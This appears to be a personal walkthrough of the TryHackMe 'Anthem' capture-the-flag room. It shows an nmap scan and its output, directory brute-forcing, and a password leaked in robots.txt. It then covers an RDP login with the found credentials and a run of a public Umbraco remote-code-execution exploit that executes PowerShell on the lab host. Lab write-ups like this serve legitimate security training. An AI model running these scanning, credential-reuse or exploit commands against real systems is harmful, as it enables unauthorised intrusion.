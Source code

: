 
https://tryhackme.com/r/room/anthem

---
#### Nmap
```shell
sudo nmap -n -Pn -sS -p- --open -min-rate 5000 -vvv 10.10.186.19
```

```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 11:11 CEST  
Initiating SYN Stealth Scan at 11:11  
Scanning 10.10.186.19 [65535 ports]  
Discovered open port 3389/tcp on 10.10.186.19  
Discovered open port 80/tcp on 10.10.186.19  
Completed SYN Stealth Scan at 11:12, 26.38s elapsed (65535 total ports)  
Nmap scan report for 10.10.186.19  
Host is up, received user-set (0.030s latency).  
Scanned at 2024-07-25 11:11:45 CEST for 26s  
Not shown: 65533 filtered tcp ports (no-response)  
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit  
PORT     STATE SERVICE       REASON  
80/tcp   open  http          syn-ack ttl 127  
3389/tcp open  ms-wbt-server syn-ack ttl 127  
  
Read data files from: /usr/bin/../share/nmap  
Nmap done: 1 IP address (1 host up) scanned in 26.48 seconds  
          Raw packets sent: 131088 (5.768MB) | Rcvd: 22 (968B)
```

#### Enum
```shell
feroxbuster -u http://10.10.186.19 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x txt  
,php,html -C 404
```

Nikto showed me what I should looking for firstly, the **`robots.txt`**.
In it we have the name of the CMS `Umbraco`, the password `UmbracoIsTheBest!` and 4 locations:
```text
UmbracoIsTheBest!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

There is 4 flags to find in the DOM, so I used `wget` to download the blog
```shell
wget -r -np -k -p http://anthem.com
```

Then I used `grep` to get the 4 flags
```shell
grep -ri "thm" ./*
```

Then put de poem on google and you got the `Solomon Grundy` username and his email `sg@anthem.com`

So we have `Jane Doe` and `Solomon Grundy`  

Solomon's email is the username for connecting on `/umbraco/`, the creds are `sg@anthem.com:UmbracoIsTheBest!`

I tried for hours a way to get in with a working PoC but the solution was simply to connect through rdp with `SG:UmbracoIsTheBest!` user
```shell
xfreerdp /u:SG /p:UmbracoIsTheBest! /v:10.10.14.4 /dynamic-resolution /cert:ignore +clipboard /drive:share,/rdp  
/sec:tls
```

The python [PoC](https://www.exploit-db.com/exploits/49488)
```shell
python3 49488.py -u sg@anthem.com -p UmbracoIsTheBest! -i 'http://anthem.com' -c powershell.exe -a '-NoProfile -  
Command ls C:\\Users'
```
This gave me the `SG` user

Fuck this room for now, I'll take my revenge later. 
@me Use the `xfreerdp` command above